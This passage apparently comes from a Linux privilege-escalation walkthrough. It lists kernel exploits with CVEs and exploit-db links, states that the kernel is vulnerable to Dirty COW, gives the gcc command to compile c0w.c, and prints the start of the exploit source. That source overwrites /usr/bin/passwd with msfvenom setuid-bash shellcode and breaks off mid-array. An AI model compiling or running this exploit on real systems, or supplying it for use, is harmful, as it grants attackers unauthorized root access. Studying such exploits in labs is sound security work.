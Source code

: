 [6] half_nelson2
    Alt: econet       CVE-2010-3850
    Source: http://www.exploit-db.com/exploits/17787
[7] half_nelson3
    Alt: econet       CVE-2010-4073
    Source: http://www.exploit-db.com/exploits/17787
[8] msr
    CVE-2013-0268
    Source: http://www.exploit-db.com/exploits/27297
[9] pktcdvd
    CVE-2010-3437
    Source: http://www.exploit-db.com/exploits/15150
[10] ptrace_kmod2
    Alt: ia32syscall,robert_you_suck       CVE-2010-3301
    Source: http://www.exploit-db.com/exploits/15023
[11] rawmodePTY
    CVE-2014-0196
    Source: http://packetstormsecurity.com/files/download/126603/cve-2014-0196-md.c
[12] rds
    CVE-2010-3904
    Source: http://www.exploit-db.com/exploits/15285
[13] reiserfs
    CVE-2010-1146
    Source: http://www.exploit-db.com/exploits/12130
[14] video4linux
    CVE-2010-3081
    Source: http://www.exploit-db.com/exploits/15024{% endraw %}{% endcapture %} {% include code.html code=code %}

The current kernel is vulnerable to `dirty cow` exploit.

Compile the code to exploit the kernel vulnerability.
{% capture code %}{% raw %}gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w{% endraw %}{% endcapture %} {% include code.html code=code %}

The exploit code is similar to below.
{% capture code %}{% raw %}#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <unistd.h>

void *map;
int f;
int stop = 0;
struct stat st;
char *name;
pthread_t pth1,pth2,pth3;

char suid_binary[] = "/usr/bin/passwd";

/* $ msfvenom -p linux/x64/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i */
unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
  0xb1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xea, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x31, 0xff, 0x6a, 0x69, 0x58, 0x0f, 0x05, 0x6a, 0x3b, 0x58, 0x99,
